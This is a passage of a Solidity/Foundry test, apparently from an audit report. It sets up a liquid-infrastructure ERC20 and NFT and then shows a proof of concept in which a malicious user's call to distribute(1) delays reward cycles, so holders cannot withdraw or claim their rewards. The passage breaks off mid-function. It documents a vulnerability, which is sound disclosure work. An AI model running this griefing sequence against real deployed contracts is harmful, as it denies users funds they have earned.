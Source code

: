 >      address[] memory ERC721List = new address[](1);
>      liquidNFT = new LiquidInfrastructureNFT("LIQUID");
>      ERC721List[0] = address(liquidNFT);
>
>      // Create approved holders
>      address[] memory holderList = new address[](5);
>      holderList[0] = alice;
>      holderList[1] = bob;
>      holderList[2] = charlie;
>      holderList[3] = delta;
>      holderList[4] = eve;
>
>      // Create liquidERC20 and mint liquidERC20 to the approved holders
>      liquidERC20 = new LiquidInfrastructureERC20("LiquidERC20", "LIQ", ERC721List, holderList, 210000, ERC20List);
>      liquidERC20.mint(alice, 1e18);
>      liquidERC20.mint(bob, 1e18);
>      liquidERC20.mint(charlie, 1e18);
>      liquidERC20.mint(delta, 1e18);
>      liquidERC20.mint(eve, 1e18);
>
>      // Add threshold and rewardToken to liquidNFT
>      uint256[] memory amountList = new uint256[](1);
>      amountList[0] = 100;
>      liquidNFT.setThresholds(ERC20List, amountList);
>      liquidNFT.transferFrom(owner, address(liquidERC20), 1);
>
>      // Mint 5e18 rewardTokens to liquidNFT
>      erc20A.mint(address(liquidNFT), 5e18);
>      vm.stopPrank();
>    }
>
>    function testGrieveCycles() public {
>      // Go to block 210001, call withdrawFromAllManagedNFTs to get the rewards, and distribute everything to bring the token balance of the reward token to 0. This is just a sanity check.
>      vm.roll(210001);
>      liquidERC20.withdrawFromAllManagedNFTs();
>      liquidERC20.distributeToAllHolders();
>
>      // Go to block ((210000 * 2) + 1).
>      vm.roll(420001);
>
>      // Malicious user calls distribute
>      // This makes it temporarily unavailable to withdraw the rewards.
>      vm.prank(malicious_user);
>      liquidERC20.distribute(1);
> 
>      // Rewards can't be pulled or withdrawn from the ERC20 contract.
>      vm.expectRevert();
>      vm.prank(owner);
>      liquidERC20.withdrawFromAllManagedNFTs();
>
>      // This sets the next reward period to start at ((210000 * 3) + 1).
>      vm.startPrank(owner);
>      liquidERC20.distributeToAllHolders();
>      liquidERC20.withdrawFromAllManagedNFTs();
>      vm.stopPrank();
>
>      // Alice tried to get the rewards she had earned but could not get them, even with the rewards being in this contract, because the next reward cycle
>      // starts at block ((210000 * 2) + 1).
>      vm.expectRevert();
>      vm.prank(alice);
>      liquidERC20.distributeToAllHolders();